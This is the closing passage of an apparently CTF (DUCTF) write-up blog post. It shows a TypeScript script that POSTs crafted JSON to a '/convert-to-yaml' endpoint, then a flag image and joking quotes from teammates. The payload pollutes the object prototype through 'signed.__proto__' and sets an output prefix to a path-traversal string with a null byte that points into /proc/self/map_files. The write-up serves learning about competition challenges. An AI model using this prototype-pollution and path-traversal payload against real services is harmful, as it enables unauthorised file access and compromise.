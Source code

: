 ```ts
}
let res0 = await fetch(`${remote}/convert-to-yaml`, {
    method: "POST",
    headers: { "Content-Type": "application/json" },
    body: JSON.stringify(payload0)
})
console.log(await res0.text())

const payload1 = structuredClone(example)
payload1.data = {
    "sus": `surely this will cause a crash`,
    "signed.__proto__": { "outputPrefix": "../../proc/self/map_files/0-1000\0" },
    ...payload1.data,
}
let res1 = await fetch(`${remote}/convert-to-yaml`, {
    method: "POST",
    headers: { "Content-Type": "application/json" },
    body: JSON.stringify(payload1)
})
console.log(await res1.text())
```

![flag]({{"/assets/posts/ductf-pp/flag.png" | relative_url}})

Wooo!

> i hate bun
>
> i hate bun
>
> i hate bun
>
> i hate bun
>
> ~ Arc'blroth

> increble
>
> ~ Aplet123
